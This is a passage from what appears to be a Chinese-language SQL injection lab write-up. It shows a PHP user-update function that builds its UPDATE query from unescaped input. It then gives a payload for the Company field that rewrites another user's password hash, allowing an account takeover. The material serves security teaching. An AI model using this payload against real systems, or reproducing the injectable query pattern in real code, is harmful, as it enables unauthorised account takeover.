 ```
    $rate = (float) $rate;
    $id = (int) $id;

    if ($avatar != "")
        {
            $upd = mysql_query("UPDATE user SET name='$name', email='$email',
                                tel1='$tel1', tel2='$tel2', company='$company',
                                zip='$zip', gender='$gender', url='$url',
                                adress='$address1', adress2='$address2',
                                state='$state', country='$country',
                                tags='$tags', locale='$locale',
                                avatar='$avatar', rate='$rate' WHERE ID = $id");
        }
    else
        {
            // same query as above minus setting avatar; removed for
            // brevity
        }
    if ($upd)
        {
            $this->mylog->add($name, 'user', 2, 0);
            return true;
        }
    else
        {
            return false;
        }
    } 
```

我们会发现​sql 语句为：`SELECT ID WHERE name=​'$user'`,并且`company`的位置是存在注入漏洞，原理同 lab1。

这样我们就可以越权来修改其他用户的信息及密码；我们使用任意用户，如： bob bob 进行登录；

在编辑用户的位置：user 填 ted 用户； Company 处填：

```
 ', `pass` = '9d4e1e23bd5b727046a9e3b4b7db57bd8d6ee684' WHERE ID = 4 # '
    注：这里的 9d4e1e23bd5b727046a9e3b4b7db57bd8d6ee684 就是 pass 的 md5 值； 
```

![图片描述信息](img/userid9094labid912time1429497692793.jpg)
